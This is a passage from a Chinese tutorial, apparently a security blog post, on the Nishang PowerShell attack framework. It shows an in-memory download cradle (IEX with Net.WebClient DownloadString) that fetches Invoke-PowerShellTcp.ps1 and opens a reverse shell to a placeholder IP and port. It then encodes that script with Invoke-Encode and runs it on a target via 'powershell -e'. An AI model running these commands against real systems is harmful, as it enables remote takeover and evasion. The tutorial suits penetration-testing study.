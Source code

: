[![](https://p4.ssl.qhimg.com/t01ad06705f088b92ac.jpg)](https://p4.ssl.qhimg.com/t01ad06705f088b92ac.jpg)

还需要说的一点是，我们可以在Powershell中使用” Out-File”来将我们的执行结果导出到文件中，如：

```
PS D:nishang-master&gt; Get-Information | Out-File res.txt
```

就可以把获取到的信息保存在res.txt中了。 

最后，需要介绍两种在内存当中去加载脚本的方式 

第一种：

```
powershell iex (New-Object Net.WebClient).DownloadString('http:///Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.] //
```

这里IEX可以远程下载我们的脚本

第二种，我们可以在Powershell中使用Invoke-Encode脚本来将我们现有的脚本编码压缩，生成编码后的内容，过程如下：



```
PS D:nishang-master&gt; Invoke-Encode -DataToEncode "D:nishang-masterShellsInvoke-PowerShellTcp.ps1" -OutCommand
Encoded data written to .encoded.txt
Encoded command written to .encodedcommand.txt
```

在我们的encodedcommand.txt文件中我们可以看到编码后的内容和效果： 

[![](https://p3.ssl.qhimg.com/t010bb1dc3dd80fad70.jpg)](https://p3.ssl.qhimg.com/t010bb1dc3dd80fad70.jpg)

然后在目标上(Web shell,meterpreter native shell等都可以)使用如下命令执行：

```
C:Userstarget&gt; powershell -e [encodedscript]
```

这里涉及到的Invoke-PowerShellTcp脚本，我们将在后文对于具体模块的脚本介绍时谈到。

<br>

**0x02 模块介绍**

**0.信息搜集**

Check-VM

从这个脚本的名字就可以看出来，它是用于检测当前的机器是否是一台已知的虚拟机的。它通过检测已知的一些虚拟机的指纹信息（如：Hyper-V, VMWare, Virtual PC, Virtual Box,Xen,QEMU）来识别。 

执行方式：

```
PS &gt; Check-VM
```

测试
